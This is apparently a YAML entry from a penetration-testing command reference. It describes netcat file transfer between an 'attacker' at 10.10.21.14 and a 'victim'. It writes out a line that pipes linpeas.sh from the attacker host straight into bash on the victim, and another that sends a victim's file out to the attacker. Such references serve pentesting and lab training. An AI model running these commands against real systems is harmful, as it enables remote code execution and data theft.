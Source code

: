 ```yaml
---
description: |
  The Netcat (nc) command is a command-line utility for reading and writing data between two computer networks. Which can be used to transfer files between victim and attacker.

  Command Reference:

  	File to copy: linpeas.sh

    Copy from attacker to victim:
    
    ```nc -lvnp 9001 < linpeas.sh (attacker)``` & ```nc 10.10.21.14 9001 | bash (victim)```

    Copy from victim to attacker:
    
    ```nc 10.10.21.14 9001 < file.txt (victim)``` & ```nc -lvnp 9001 > file.txt (attacker)```

command: |
  nc -lvnp 9001 < linpeas.sh
items:
  - Shell
services:

OS:
  - Windows
  - Linux
attack_types:
  - General
references:
  - https://medium.com/iostrap/how-to-transfer-files-between-servers-using-netcat-d8bc13eebea
  - https://linux.die.net/man/1/nc
---
```


